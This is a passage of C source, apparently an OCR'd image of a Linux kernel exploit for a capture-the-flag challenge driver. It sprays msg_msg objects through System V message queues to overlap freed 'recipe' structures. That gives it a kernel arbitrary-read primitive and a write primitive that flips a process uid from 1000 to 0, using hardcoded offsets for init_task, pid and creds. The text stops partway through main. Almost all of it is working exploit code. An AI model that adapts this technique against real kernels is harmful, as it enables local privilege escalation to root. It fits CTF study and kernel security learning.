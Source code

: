 ```c
    int qid;
    qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
    msgsnd(qid, data, size-0x30, 0);
    return qid;
}
void free_msg(int qid, void* buf, size_t size){
    msgrcv(qid, buf, size, 0, IPC_NOWAIT | MSG_NOERROR);
}
void leak(char* what, unsigned long where){
  printf("%s @ %p\n", what, (void*) where);
}

ulong read_qword(ulong addr){
	// alloc msg_msg over recipes_list
	struct msgbuf
    {
        long mtype;
        char mtext[2000];
    } msg;
    msg.mtype = 1;
	
	// place a pointer just after msg_msg metadata (index 6 of recipes_list)
	ulong *ptr = (ulong *)&msg.mtext;
    ptr[0] = addr - 8; // recipe.bufsize overlaps the qword to read

	int qid = alloc_msg(&msg, sizeof(msg.mtext));
	free_msg(qid, &msg, sizeof(msg.mtext));

	// get the bufsize
	struct info leak;
	info_recipe(6, &leak);
	return leak.bufsize;
}

void change_uid(ulong addr){
	// alloc msg_msg over recipes_list
	struct msgbuf
    {
        long mtype;
        char mtext[2000];
    } msg;
    msg.mtype = 1;
	
	// place a pointer just after msg_msg metadata (index 6 of recipes_list)
	ulong *ptr = (ulong *)&msg.mtext;
    ptr[0] = addr - 0x10; // recipe.public overlaps the uid we want to change

	int qid = alloc_msg(&msg, sizeof(msg.mtext));
	free_msg(qid, &msg, sizeof(msg.mtext));

	toggle_recipe(6); // toggle uid (from 1000 to 0)
}

#define INIT_TASK 0xffffffff828149c0
#define NEXT_TASK_OFF 0x458
#define PID_OFF 0x560
#define CREDS_OFF 0x728

int main(int argc, char **argv) {
    fd = open(CHALLENGE_DRIVER, O_RDWR | O_NONBLOCK);

    ulong bufsize = 0x300;
    char *buf = malloc(bufsize);
```